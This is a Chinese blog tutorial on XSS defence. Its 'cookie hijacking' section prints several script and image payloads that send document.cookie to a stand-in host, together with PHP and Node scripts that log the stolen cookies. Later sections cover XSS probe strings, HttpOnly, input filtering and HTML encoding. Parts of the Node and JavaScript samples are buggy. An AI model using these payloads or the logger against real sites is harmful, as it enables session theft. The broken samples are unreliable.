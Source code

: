 ```yaml
---
title: web安全-浅谈xss攻防（二）
date: 2018-10-10 16:05:13
tags:  
    - WEB安全
categories:
    - WEB安全
---
```


# 前言
上次介绍了什么是XSS以及XSS的三种类型，作为上次小尾巴的总结来说：XSS跨站脚本是一种经常出现在web应用程序中的计算机安全漏洞，是由于web应用程序对于用户的输入过滤不足引起的。攻击者利用网站漏洞把恶意脚本代码注入到网页之中，当其他用户浏览这些网页时，就会执行其中的恶意代码，轻者能达到恶作剧的目的，重者可以对受害者采取cookie资料窃取，会话劫持，钓鱼欺骗等各种攻击；分为三种类型，服务端的存储型和反射性，客户端自身漏洞引起的DOM型。这次我简单总结一些常见的攻击对应的防御措施，方便以后学习回顾;
<!--more-->
# 1.Cookie劫持
下面是几种是窃取用户Cookie信息的恶意代码，攻击者向漏洞页面写入类似的恶意代码从而达到获取客户端cookie信息的目的:

```
<script>document.location="http://test.com/cookie.asp?cookie ='+document.cookie</script>
<img src="http://test.com/cookie.asp?cookie ='+document.cookie">
<script>new Image().src="http://test.com/cookie.asp?cookie ='+document.cookie"</script>
<script>img=new Image();img.src="http://test.com/cookie.asp?cookie ='+document.cookie";img.wdith=0;img.height=0;</script>
<script>document.write('<img src="http://test.com/cookie.asp?cookie ='+document.cookie" width=0 height=0 border=0>')</script>
```
诸如此类，一旦注入成功，这些恶意代码都会向某个特定的远程服务器提交cookie，攻击者会在远程服务器上写一个接收和记录cookie信息的文件
例如php版本：
```php
<?php
    $cookie=$_GET['cookie'];
    $log= fopen("cookie.txt","a");
    fwrite($log,$cookie ."\n");
    fclose($log);
?>
```
或者node来处理:
```js
const http = require('http');
const fs = require('fs');

http.createServer(function(req,res){
    var Cookies = {};
    
    req.headers.cookie && req.headers.cookie.split(';').foEach(function(Cookies){
        var parts = Cookie.split('=');
        Cookies[ parts[ 0 ].trim() ] = ( parts[ 1 ] || '' ).trim();
    })

    console.log(Cookies)

    res.writeHeader(200,{
        'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed', 
        // 注意上面我们不设置HttpOnly;Fix:>>>'SSID=EqAc1D; Expires=Wed;HttpOnly'<<<
		'Content-Type' : 'text/plain'
    });
    
    fs.open('cookie.txt','r+',function(err,fd){
        if(err){
            return console.error(err);
        }
        fs.writeFile(fd,Cookies,function(){
            if(err){
                return console.error(err);
            }
        })
    })
}).listen(8000);
```
亦或是jsp版本、python flask等等诸如此类可以获取到从客户端发来的cookie做接收和记录操作的。

获取到存储信息的cookie.txt后，攻击者就可以通过修改网站的cookie信息（f12打开开发者控制工具，application/Cookies）来登入网站，从而来进行进一步的攻击操作。

## 防止cookie会话劫持
根本原因是攻击者获取cookie的恶意js代码注入到站点，进一步传到攻击者的远程服务器，从而进行攻击操作；
对于可能的意外注入站点的获取cookie的恶意js代码，我们一般要在设置cookie时加HttpOnly，来禁止意外注入站点的恶意js代码操作Cookie造成xss攻击
比如node设置HttpOnly：
```js
'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed ;HttpOnly'
```
或者php设置HttpOnly：
```php
<?php ini_set("session.cookie_httponly", 1); ?>
```
# 2.提高攻击门槛

## 使用XSS Filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容，例如：
1.表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等
2.过滤或移除特殊的 html 标签：`<script>`、`<iframe>`等
3.过滤 js 事件的标签：onclick、onerror、onfocus等
4.对于要求用户输入的一些特殊格式的字段，用正则和字段长度进行严格限制，比如手机号，邮箱等
如在客户端进行验证手机号的JavaScript代码:
```js
<form id="test">
    <input type="text" id="tel">
    <input type="button" onclick="checkTel()"> 
</form>
<script>
    function(){
        let re = /^020-\d{8}$/;
        if(re.test(document.getElementById("Tel").value)){
            alert('电话号码格式正确');
        }else{
            alert('错误的电话号码');
        }
    }
</script>
```
这段JavaScript验证代码要求用户输入的必须是020-开头，后跟8位数字.
> 但是需要特别注意的是，*仅仅在客户端进行非法输入的验证和检测是远远不够的*，因为客户端组件和用户输入不在服务器的控制范围内，用户能够完全控制客户端及提交的数据，比如firebug、TemperDate之类的工具，拦截应用程序收到和发布每一个HTTP/HTTPS请求和响应，对其进行修改和检查，从而绕过客户端的检验将信息提交到服务器中。因此，确认客户端生成数据的唯一安全方法就是在服务端实施保护措施。

## 输出编码Xss Escape
有时候我们又不可避免的需要用户输入一些特殊字符，但是我们又不确定用户输入的这段含特殊字符的数据是不是恶意的含xss的字符，为了保证用户输入的完整性和正确性，就可以使用编码（HTMLEncode）进行处理。

HTML编码在防止xss攻击上能起很大的作用，它主要使用对应的实体代替HTML字符，让该字符作为其HTML文档的内容而非结构加以处理。

| 显示 | 实体名字 | 实体编号 |
| :------: | :------: | :------: |
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `&` | `&amp;` | `&#38;` |
| `"` | `&quot;` | `&#34;` |

上面就是几个可能触发xss的敏感字符，都是一些特殊的HTML字符。都这些字符实现编码和转义后，能够有效地防范HTML注入和XSS攻击

例如php的`htmlspecialchars()`库函数，就能够将用户输入的特殊字符进行实体转换：
- `<` 转成 `&lt;`
- `>` 转成 `&gt;`
- `&` 转成 `&amp;`
- `"` 转成 `&quot;`
- `'` 转成 `&#39;`

实际情况中，我们可以结合这两种情况进行过滤
![安全的过滤形式](/assets/images/xss-encode02.png)

# 3.Xss漏洞检测Poc
标准的xss漏洞检测代码
```js
<script>alert('xss')</script>
```
img 图片标记属性跨站攻击代码
```
<img src="javascript:alert(/xss/)"></img> <img dynsrc="javascript:alert('xss')">
```
无需 “<>”，利用 html 标记事件属性跨站
```
<img src="" onerror=alert("xss")>
```
空格与回车符转换
```
<img src="Jav&#x09;ascript:alert('xss')"> <img src="Jav&#x0A;ascript:alert('xss')"> <img src="Jav&#x0D;ascript:alert('xss')">
```
10 进制转换
```
<img src="&#74&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#120&#115&#115&#39&#41">
```
以上代码都可以做 Poc 使用，在有变量的位置插入，如果成功执行则代表有漏洞。
只要你提交的Poc，服务端原封不动的返回了，说明服务端不经过任何处理就显示了，就证明有漏洞存在。

# 参考资料
[《XSS跨站脚本剖析与防御》--邱永华](https://book.douban.com/subject/25711796/)
[《白帽子讲web安全》--吴翰清](https://book.douban.com/subject/10546925/)
[《Web 安全：前端攻击 XSS 深入解析》](https://blog.csdn.net/gitchat/article/details/78726803)